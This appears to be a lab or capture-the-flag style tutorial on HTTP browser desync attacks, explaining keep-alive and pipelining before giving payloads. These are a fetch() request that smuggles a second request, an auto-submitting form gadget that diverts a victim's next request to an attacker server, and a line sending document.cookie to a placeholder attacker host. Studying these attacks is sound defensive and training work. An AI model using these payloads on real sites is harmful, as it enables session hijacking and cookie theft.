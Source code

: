 #### HTTP Keep-Alive  

HTTP keep-alive is a mechanism that allows the reuse of a single TCP connection for multiple HTTP requests and responses. It helps reduce latency and improve performance by avoiding the need to open and close connections repeatedly. However, it can introduce a security risk known as Cache Poisoning. If caching mechanisms are in place, the persistence of connections through keep-alive could contribute to cache poisoning attacks. An attacker might exploit desynchronization issues to store malicious content in caches.
#### HTTP Pipelining

Usually, with HTTP, one request results in one response. If the HTTP pipelining is enabled in the backend server, it will allow the simultaneous sending of two requests with the corresponding responses without waiting for each response. The only way to differentiate between two requests and a big one is by using the Content-Length header, which specifies the length in bytes of each request. The content header is an unnecessary header for most static file contents in a web application, like images or icons, since the backend server will usually not consider it.
## Browser Desync
In a Browser Desync attack, the attacker aims to take control of a victim's account by exploiting vulnerabilities in a web application's user connection system.
This attack occurs in two steps:
1.  The initial request, appearing legitimate, is intended to disrupt the user request queue by introducing an arbitrary request. 
2. Once the connection pool is compromised, the very next valid request will be replaced by the arbitrary request initiated in the previous step.
#### HTTP Browser Desync Identification
To execute the attack, a straightforward approach is to utilize the `fetch` JavaScript function. This function allows for maintaining the connection ID across requests. The connection ID refers to a unique identifier assigned to a network connection between the client (browser) and the server. This identifier helps the server keep track of multiple connections and distinguish between them.
This consistent connection ID lies in its ability to facilitate exploitation for an attacker that could expose user information or session tokens such as cookies.
Moreover, in a cross-site attack, the browser shares user cookies based on how the `SameSite` flag is set (CORS), but this security rule doesn't apply if the current domain matches the remote one, as in Browser Desync attacks. In such cases, there's no restriction. 

You can hack your session by using the following payload from your browser command line.
```javascript
fetch('http://10.10.227.23:5000/', 
	{
		method: 'POST', 
		body: 'GET /redirect HTTP/1.1\r\nFoo: x',
		mode: 'cors',
	}
);
```
In the body, the flag `mode: 'cors'`, triggers an error when visiting the 404 web page and avoids following the redirect.

#### HTTP Browser Desync exploit chaining XSS
One potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code. However, this strategy necessitates the presence of an arbitrary file upload feature on the website.
Instead, we can use a rogue server to deliver an XSS attack to steal the cookie from the victim.   

We can use the following gadget and deliver it to abuse any component of the web application that allows to reflect text and probably be visited by a user:
```html
<form id="btn" action="http://challenge.com/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://YOUR_IP HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```
We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encoding MIME type since we don't want to encode the second malicious request.  
Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.  
To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.  
  

To do so, we can set up a rogue server by serving a route with a malicious payload like `fetch('http://YOUR_IP/' + document.cookie);`